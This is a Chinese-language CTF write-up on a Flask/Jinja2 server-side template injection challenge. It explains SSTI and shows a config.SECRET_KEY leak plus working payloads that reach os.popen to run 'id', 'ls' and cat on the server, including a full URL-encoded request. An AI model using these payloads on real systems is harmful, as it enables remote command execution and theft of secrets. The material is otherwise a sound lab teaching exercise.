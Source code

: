 # 题目描述
打开直接看源码
![image](https://user-images.githubusercontent.com/24989246/173508561-716d04f7-d0a2-4ce6-bb35-4dc7f317f0fc.png)
# 解题思路
这里了解了一下什么是模板注入
这里针对的是flask模板，config是flask模板中的一个全局对象。包含了所有应用程序的配置值。
注释中有提示是SECRET_KEY
这里直接在url中写上?flag={{config.SECRET_KEY}}
![image](https://user-images.githubusercontent.com/24989246/173509161-edfbc314-00d6-4ea9-8476-5e1db4a44cee.png)
# 模板注入总结
## 1、什么是SSTI？

SSTI就是服务器端模板注入(Server-Side Template Injection)，实际上也是一种注入漏洞。

可能SSTI对大家而言不是很熟悉，但是相信大家很熟悉SQL注入。实际上这两者的思路都是相同的，因此可以类比来分析。

## 2、引发SSTI的真正原因

render_template渲染函数的问题

渲染函数在渲染的时候，往往对用户输入的变量不做渲染。

也就是说例如：{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{}}包裹的内容当做变量解析替换。比如{{1+1}}会被解析成2。如此一来就可以实现如同sql注入一样的注入漏洞

## 3、判断类型
![image](https://user-images.githubusercontent.com/24989246/173509402-624cc9f7-36f5-4e23-9e54-d6e8e5358196.png)

# 常见的模板注入利用方式
## 1、官方的漏洞利用方法：
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
 把上面这一串当做name参数传递即可实现命令执行：
```shell
 http://192.168.1.10:8000/?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

2.传入参数
```php
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
查看文件列表
![image](https://user-images.githubusercontent.com/24989246/179968951-d2fd0317-cedf-442c-b687-2a3bb2829d90.png)

再cat 一下
![image](https://user-images.githubusercontent.com/24989246/179969046-f6556bc1-1a78-40a4-8818-aa4d63d371b2.png)

得到flag

